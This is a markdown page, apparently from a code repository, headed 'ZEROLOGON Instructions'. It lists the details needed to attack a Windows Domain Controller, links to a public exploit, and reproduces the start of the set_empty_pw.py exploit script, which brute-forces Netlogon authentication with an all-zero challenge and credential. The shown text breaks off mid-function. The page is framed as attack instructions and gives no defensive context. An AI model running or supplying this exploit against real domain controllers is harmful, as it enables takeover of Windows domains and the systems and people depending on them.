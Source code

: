# ZEROLOGON Instructions:

## Before you begin:

1. you need the Domain Name for the Windows Domain Controller you are attacking.
2. you need the NetBIOS Name (PC name) for the Windows Domain Controller you are attacking.
3. you need the IP address for the Windows Domain Controller you are attacking.
4. need the exploit code
  - https://github.com/risksense/zerologon/blob/master/set_empty_pw.py
  - https://www.youtube.com/watch?v=6xMGsdD-ArI
**That is all!!**

## set_empty_pw.py
Contents:
```python3
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto
from impacket.dcerpc.v5.ndr import NDRCALL

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call
from Cryptodome.Cipher import DES, AES, ARC4
from struct import pack, unpack

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def byte_xor(ba1, ba2):
    return bytes([_a ^ _b for _a, _b in zip(ba1, ba2)])

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  serverChallengeResp = nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  serverChallenge = serverChallengeResp['ServerChallenge']
  try:
```